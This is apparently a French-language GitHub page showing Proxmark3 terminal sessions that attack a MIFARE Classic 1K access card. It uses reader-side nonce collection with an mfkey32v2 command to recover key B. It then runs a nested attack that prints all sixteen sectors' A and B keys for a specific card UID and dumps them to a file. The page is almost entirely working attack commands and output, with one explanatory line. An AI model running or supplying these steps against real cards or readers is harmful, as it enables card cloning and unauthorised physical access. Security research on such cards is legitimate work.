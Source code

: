 
```
[usb] pm3 --> hf mf sim -x -i --1k -u BA14DD19
[=] MIFARE 1K | 4 byte UID  BA 14 DD 19 
[=] Options [ numreads: 0, flags: 291 (0x123) ]
[=] Press pm3-button or send another cmd to abort simulation
[#] ----------- BREAKING ----------
[#] Emulator stopped. Tracing: 1  trace length: 0 
[#] Enforcing Mifare 1K ATQA/SAK
[#] 4B UID: ba14dd19
[#] ATQA  : 00 04
[#] SAK   : 08
[#] Collected two pairs of AR/NR which can be used to extract keyB from reader for sector 0:
[#] ../tools/mfkey/mfkey32v2 ba14dd19 acb5df53 a4949717 0d34090a 5e31a87a c4a60a98 0152409a
[#] Emulator stopped. Tracing: 1  trace length: 26696
[=] Reader is trying authenticate with: Key B, sector 00: [7bee4b2f110d]
```

A partir d'une clé A/B d'un secteur il est alors possible d'effectuer une "Nested Attack" pour retrouver toutes les autres : 

```
[usb] pm3 --> hf mf nested --1k --blk 0 -b -k 7bee4b2f110d --dump
[+] Testing known keys. Sector count 16
[=] ..
[=] Chunk 4,1s | found 1/32 keys (24)
[+] Time to check 23 known keys: 4 seconds

[+] enter nested key recovery
[+] Found 2 key candidates

[+] target block:   0 key type: A  -- found valid key [ DCD69A2DE627 ]

[=] Chunk 0,4s | found 1/32 keys (1)
[+] Found 1 key candidates

[+] target block:   4 key type: A  -- found valid key [ 14A2221996B4 ]
[...]
[+] found keys:

[+] |-----|----------------|---|----------------|---|
[+] | Sec | key A          |res| key B          |res|
[+] |-----|----------------|---|----------------|---|
[+] | 000 | dcd69a2de627   | 1 | 7bee4b2f110d   | 1 |
[+] | 001 | 14a2221996b4   | 1 | e4373d5e6268   | 1 |
[+] | 002 | 9922ebf0263f   | 1 | f8b92684786f   | 1 |
[+] | 003 | d899c5f31408   | 1 | 366cb457ead4   | 1 |
[+] | 004 | 0f162e7bee9d   | 1 | 71f07ce72e1c   | 1 |
[+] | 005 | 67498dff59f3   | 1 | 0508577c8572   | 1 |
[+] | 006 | 61e8236e9968   | 1 | 275ca8d78257   | 1 |
[+] | 007 | 4a6f5d76c161   | 1 | 5d53c6b5ec59   | 1 |
[+] | 008 | aa778eac90fe   | 1 | fa1e30c107b7   | 1 |
[+] | 009 | fcd2b7fcb222   | 1 | 15519e9442bb   | 1 |
[+] | 010 | a9a940086ea3   | 1 | 13a5a8357142   | 1 |
[+] | 011 | 4216c27fe9d9   | 1 | 797c1e2c8d6f   | 1 |
[+] | 012 | 22e0e149ce2b   | 1 | b9dd23d5fd49   | 1 |
[+] | 013 | 7bb1f3867d55   | 1 | 870f15889001   | 1 |
[+] | 014 | 4f1eadb0edb5   | 1 | 08be24c123c6   | 1 |
[+] | 015 | a3683c6fbaf9   | 1 | e9ee759ed67e   | 1 |
[+] |-----|----------------|---|----------------|---|
[+] ( 0:Failed / 1:Success )

[+] Generating binary key file
[+] Found keys have been dumped to hf-mf-BA14DD19-key.bin

```